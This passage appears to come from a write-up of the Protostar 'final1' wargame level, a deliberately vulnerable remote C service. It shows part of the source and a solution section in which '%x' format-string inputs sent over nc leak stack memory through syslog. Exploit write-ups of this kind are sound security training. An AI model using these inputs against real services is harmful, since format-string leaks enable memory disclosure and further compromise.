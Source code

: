 ```c
      printf("[final1] $ ");
  }
}

void getipport()
{
  int l;
  struct sockaddr_in sin;

  l = sizeof(struct sockaddr_in);
  if(getpeername(0, &sin, &l) == -1) {
      err(1, "you don't exist");
  }

  sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  getipport();
  parser();

}
```

It says that it's a remote blind format string level. After looking over this program, all the printf-type functions seem to be used correctly, but what about syslog()?  

##### Solution
```
root@protostar:/# nc 127.0.0.1 2994
[final1] $ username hello
[final1] $ login whatever
login failed

root@protostar:/# tail -f /var/log/syslog | grep final1
......
Dec  10 06:30:36 protostar final1: Login from 127.0.0.1:51057 as [hello] with password [whatever]

root@protostar:/# nc 127.0.0.1 2994
[final1] $ username %x%x%x%x
[final1] $ login %x%x%x%x
login failed

root@protostar:/# tail -f /var/log/syslog | grep final1
Dec  10 06:31:18 protostar final1: Login from 127.0.0.1:51057 as [8049ee4804a2a0804a220bffffbd6] 
with password [b7fd7ff4bffffa2869676f4c7266206e]
```
